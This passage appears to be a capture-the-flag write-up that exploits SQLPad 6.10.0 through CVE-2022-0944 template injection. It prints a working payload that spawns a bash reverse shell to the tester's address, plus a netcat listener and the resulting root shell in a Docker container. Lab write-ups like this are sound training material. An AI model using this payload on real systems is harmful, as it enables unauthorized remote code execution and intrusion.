 A quick Google search for "SQLPad 6.10.0 exploit" led me to [CVE-2022-0944](https://nvd.nist.gov/vuln/detail/CVE-2022-0944) which is a template injection vulnerability that could lead to Remote Code Execution (RCE). Jackpot!

### CVE-2022-0944

I found a Proof of Concept (PoC) from [huntr](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb) Here's how I used it

- Click on `Connections` -> `Add` connection
- Choose MySQL as the driver
- Input the following payload into the Database form field
- Modified the Payload

{% raw %}
```bash
"{{ process.mainModule.require('child_process').exec('/bin/bash -c \"bash -i >& /dev/tcp/10.10.14.54/1337 0>&1\"') }}"
```
{% endraw %}

I set up a listener using `nc -lvnp 1337` and hit the "Test" button on the SQLPad connection page

```bash
nc -lvnp 1337
```

And just like that, I got a shell as `root` inside a Docker container!

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.11.32] 53496
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad# whoami
whoami
root
root@c184118df0a6:/var/lib/sqlpad#
```

## Initial Access

Alright, so I was in as root but it was inside a Docker container time to do some recon

```bash
root@c184118df0a6:~# ls /
ls /
bin
boot
dev
docker-entrypoint
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```